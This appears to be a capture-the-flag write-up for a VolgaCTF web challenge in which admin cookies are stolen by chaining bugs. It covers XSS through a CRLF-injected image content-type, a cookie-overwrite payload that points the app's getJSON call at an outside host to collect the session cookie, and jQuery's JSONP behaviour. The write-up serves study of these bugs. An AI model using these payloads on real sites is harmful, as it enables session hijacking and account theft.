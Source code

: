 ## Owner:

> CaptainFreak

#### Solved?

 -No


#### Challenge Description.

0. Three domains:
	0.a. static.volga-ctf.ru -> CDN
	0.b. api.volga-ctf.ru    -> API
	0.c. volga-ctf.ru        -> Main Domain

1. There was a Report Feature to submit a URL and Admin user will visit it using a FireFox client.

2. Standard, Login and Signup.

3. Upon Loggin in, Server sets a standard session cookie "PHPSESSIONID" and another interesting cookie "api-server=api".

4. This `api-server` cookie is used POST-login to send XHR calls to {api-server-cookie}.volga-ctf.ru for getting user Profile [Name, Bio and Profile Picture]. Getting value of subdomain from cookie smells fishy!

5. api.volga-ctf.ru/user-update take an image as well its content-type from client Side but to be not vulnerable to xss it was checking if this contained substrings as "html", "xml" and "xsl".

6. volga.ctf/profile.html?guid=user-id seems useless cause /profile is also doing same

And task was:

> To somehow steal admins cookies by chaining all this.


#### Tried:

1. Clearly SSRF through Report.
2. Fuzzed, Bypassed Got the XSS on static domain through content-type: `image/svg+x\rml` -> this worked because the code `aws/aws-sdk-php`  that pushed the images to s3 bucket (static.volga-ctf.ru) was vulnerable to CRLF. 
Another ways to get XSS on this domain will be :

	2.a. To fuzz multiple content types supported by browser and are interpreted as HTML. Ex. `text/rdf`, `text/xsl` and `text/vtt`

	2.b. Use FirFoxes multipart response rendering with content-type: `Content-Type: multipart/x-mixed-replace;boundary="boundry`. Firefox renders the last part of the response.

#### Solutions:

1.	So we have XSS on static.volga-ctf.ru.

2.  Now using this XSS we can set the cookie `api-server=shoebpatel.com\xff; path=/profile.html` for `volga-ctf.ru`. This will overwrite the original cookie on url `/profile.html` because it was set for "path=/".

3. We did this because now on `volga-ctf.ru/profile.html` the main.js has code

```
$.getJSON(`//${api}.volga-ctf.ru/user?guid=${guid}`
```

loaded will do request on `shoebpatel.com/?volga-ctf.ru/user?guid=${guid}` which will give cookies which was being originally sent to api.volga-ctf.ru (PHPSESSIONID) Only. We have PHP cookie but we yet dont have Flag cookie :( .

4. So this was a ust google search for `$.getJSON XSS` step! We needed to read and find about XSS ways in getJSON !

5. It was damn easy, If the URL to $.getJSON contains `?` anywhere, Examples:
	
	5.0. https://captainfreak.com/q=?
	5.a. https://captainfreak.com/??
	5.b. https://captainfreak.com/=?&
	5.c. https://captainfreak.com??
	5.d. https://??.captainfreak.com/

It will be considered as JSONP in JQuery's context and by that what it means its basically gonna do 

```
<script src="https://captainfreak.com/q=?"></script>
```

And this is hostes on volga-ctf.ru. Boom XSS.

### References:

1. https://ctftime.org/task/10863



